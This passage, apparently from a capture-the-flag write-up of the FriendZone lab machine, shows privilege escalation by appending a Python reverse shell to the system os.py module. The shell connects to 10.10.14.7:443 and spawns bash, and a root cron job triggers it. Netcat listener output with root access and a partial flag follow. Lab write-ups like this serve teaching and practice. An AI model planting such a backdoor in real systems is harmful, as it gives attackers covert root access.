 ```

...[snip]...
def _pickle_statvfs_result(sr):
    (type, args) = sr.__reduce__()
    return (_make_statvfs_result, args)

try:
    _copy_reg.pickle(statvfs_result, _pickle_statvfs_result,
                     _make_statvfs_result)
except NameError: # statvfs_result may not exist
    pass

import pty
import socket

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.7",443))
dup2(s.fileno(),0)
dup2(s.fileno(),1)
dup2(s.fileno(),2)
pty.spawn("/bin/bash")
s.close()

```

It’s a standard python reverse shell, except that instead of `os.dup2()`, I just write `dup2()`. That’s because I’m in the os module right now. It actually should still work if you just `import os`, but I removed it as it’s not needed.

I’ll save that. Since waiting two minutes to fail is annoying, I’ll open python on my own and see if I get a shell back as friend. On just starting `python`, I get a callback, and have a shell. I’ll exit out and wait for the cron. Once the two minutes rolls, shell:

```

root@kali# nc -lnvp 443
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.123.
Ncat: Connection from 10.10.10.123:46118.
root@FriendZone:~# id
uid=0(root) gid=0(root) groups=0(root)

```

From there, grab `root.txt`:

```

root@FriendZone:~# cat root.txt 
b0e6c60b...

```